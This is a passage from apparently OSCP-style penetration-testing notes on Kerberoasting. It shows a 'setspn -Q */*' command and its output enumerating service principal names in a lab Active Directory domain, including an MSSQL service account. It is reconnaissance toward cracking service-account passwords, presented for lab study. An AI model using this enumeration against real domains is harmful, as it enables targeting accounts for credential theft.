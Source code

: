 # 3. Service Account Attack
## 3.1. Kerberoasting
- Ref: <https://github.com/nidem/kerberoast>

### 3.1.1. Discover SPNs

```console
C:\Users\mike>setspn -Q */*
Checking domain DC=lab,DC=vx
CN=krbtgt,CN=Users,DC=lab,DC=vx
        kadmin/changepw
CN=SVR,CN=Computers,DC=lab,DC=vx
        TERMSRV/SVR
        TERMSRV/SVR.lab.vx
        RestrictedKrbHost/SVR
        HOST/SVR
        RestrictedKrbHost/SVR.lab.vx
        HOST/SVR.lab.vx
CN=CLIENT,CN=Computers,DC=lab,DC=vx
        TERMSRV/CLIENT
        TERMSRV/CLIENT.lab.vx
        RestrictedKrbHost/CLIENT
        HOST/CLIENT
        RestrictedKrbHost/CLIENT.lab.vx
        HOST/CLIENT.lab.vx
CN=DC,OU=Domain Controllers,DC=lab,DC=vx
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/DC.lab.vx
        ldap/DC.lab.vx/ForestDnsZones.lab.vx
        ldap/DC.lab.vx/DomainDnsZones.lab.vx
        TERMSRV/DC
        TERMSRV/DC.lab.vx
        DNS/DC.lab.vx
        GC/DC.lab.vx/lab.vx
        RestrictedKrbHost/DC.lab.vx
        RestrictedKrbHost/DC
        RPC/cba15170-f237-42f7-a29f-3a1cd3cb839e._msdcs.lab.vx
        HOST/DC/LAB
        HOST/DC.lab.vx/LAB
        HOST/DC
        HOST/DC.lab.vx
        HOST/DC.lab.vx/lab.vx
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/cba15170-f237-42f7-a29f-3a1cd3cb839e/lab.vx
        ldap/DC/LAB
        ldap/cba15170-f237-42f7-a29f-3a1cd3cb839e._msdcs.lab.vx
        ldap/DC.lab.vx/LAB
        ldap/DC
        ldap/DC.lab.vx
        ldap/DC.lab.vx/lab.vx
CN=MSSQL Service Account,OU=OSCP Lab,DC=lab,DC=vx
        MSSQLSvc/SVR.lab.vx:1433
        MSSQLSvc/SVR.lab.vx

Existing SPN found!
```
